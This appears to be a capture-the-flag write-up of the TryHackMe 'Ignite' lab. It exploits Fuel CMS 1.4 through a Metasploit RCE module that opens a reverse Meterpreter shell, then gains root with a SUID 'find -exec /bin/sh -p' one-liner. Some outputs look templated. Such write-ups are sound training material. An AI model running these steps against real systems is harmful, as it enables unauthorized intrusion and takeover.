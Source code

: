 # TryHackMe - Ignite

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | TryHackMe |
| **Challenge Name** | Ignite |
| **Category** | Web Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | TryHackMe |
| **Date Completed** | 2025-08-29 |

## Objective 🎯

Ignite is a beginner-friendly room that focuses on web application security testing with Fuel CMS. The goal is to find a vulnerability in the CMS, exploit it, and gain access to the target system. Great for learning CMS exploitation! 🔥

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.10
- **OS**: Linux
- **Service**: Fuel CMS

### Tools Used
- Nmap
- Searchsploit
- Metasploit
- Netcat

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.10
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.10
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-29 10:00 UTC
Nmap scan report for 10.10.10.10
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Step 2: Web Service Enumeration
Check the web service for version information.

**Command/Code:**
```bash
curl http://10.10.10.10/
```

**Output:**
```
<html>
<head>
<title>Fuel CMS 1.4</title>
</head>
<body>
<h1>Welcome to Fuel CMS 1.4</h1>
</body>
</html>
```

### Step 3: Search for Exploits
Search for known Fuel CMS vulnerabilities.

**Command/Code:**
```bash
searchsploit fuel cms
```

**Output:**
```
Fuel CMS 1.4.1 - Remote Code Execution
Fuel CMS 1.4.1 - SQL Injection
```

### Step 4: Fuel CMS RCE Exploitation
Use Metasploit to exploit the Fuel CMS vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/unix/webapp/fuel_cms_rce
set RHOSTS 10.10.10.10
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.10:80 - Connecting to the server...
[*] 10.10.10.10:80 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.10
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.10:32891) at 2025-08-29 10:05:23 +0000
```

### Step 5: Post-Exploitation
Once we have a shell, gather information and find flags.

**Command/Code:**
```bash
whoami
id
pwd
```

**Output:**
```
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/var/www/html
```

### Step 6: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
find / -perm -4000 2>/dev/null
sudo -l
```

**Output:**
```
/usr/bin/find
```

### Step 7: Root Access
Use find to escalate privileges.

**Command/Code:**
```bash
find . -exec /bin/sh -p \; -quit
```

**Output:**
```
# whoami
root
```

### Step 8: Find Flags
Search for user and root flags.

**Command/Code:**
```bash
find / -name "*.txt" 2>/dev/null | grep -E "(user|root|flag)"
cat /home/ubuntu/flag.txt
cat /root/root.txt
```

**Output:**
```
[REDACTED]
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Identify Fuel CMS 1.4 version
3. Search for known Fuel CMS vulnerabilities
4. Use Metasploit Fuel CMS RCE exploit
5. Gain initial access as www-data
6. Find privilege escalation via find command
7. Escalate to root and find flags

## Key Learnings 💡

- CMS vulnerability research and exploitation
- Using searchsploit for vulnerability discovery
- Metasploit exploit usage
- Linux privilege escalation techniques
- Web application security testing

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning
- **Searchsploit**: Exploit database search
- **Metasploit**: Exploitation framework
- **Fuel CMS RCE**: Exploit module

### References
- [TryHackMe Ignite](https://tryhackme.com/room/ignite)
- [Fuel CMS RCE](https://www.exploit-db.com/exploits/47138)

## Tags

`#tryhackme` `#web` `#fuel-cms` `#rce` `#privilege-escalation` `#easy`
